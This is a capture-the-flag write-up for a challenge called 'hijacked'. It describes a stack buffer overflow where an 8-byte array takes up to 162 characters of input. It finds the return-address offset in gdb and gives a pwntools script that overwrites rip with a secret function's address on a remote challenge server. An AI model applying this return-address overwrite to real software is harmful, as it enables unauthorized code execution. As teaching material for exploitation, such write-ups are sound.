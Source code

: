 ## hijacked

As the title `hijacked` suggests, we have to hijack the return address of the program to point to the secret function.

And, since [aslr](https://en.wikipedia.org/wiki/Address_space_layout_randomization) is disabled we already know the address of the secret function.

If we look at the code of the binary(either disassembled or source code), we can easily see that array `b[]` is of size 8, but the input can take upto 162 characters.

Which mean that, if we input something large it will overwrite the values of the other variables & addresses.

Using [gdb]() we can see that the address of secret function is `0x4025da` ![1](image.png)

And, if we set breakpoint just after the input (using `b *calc+414` in gdb) we can see the memory addresses difference between our input and [rip](https://renenyffenegger.ch/notes/development/languages/assembler/x86/registers/instruction-pointer/index) to be `0xdec8 - 0xde30 = 0x98`

![2](image-3.png)
![3](image-2.png)
![4](image-4.png)

So, we'll send it an input which has something random for first 0x98 characters and then address of secret function(in 64-bit).

### Code
```
from pwn import *
# target = process('./pwn')
# target = remote('localhost', 9451)
target = remote('20.244.30.128', 9451)
input = "2" * 152
input += p64(0x4025da)
target.sendline("1")
target.sendline("1")
target.sendline(input)
target.interactive()
```

![answer](image-5.png)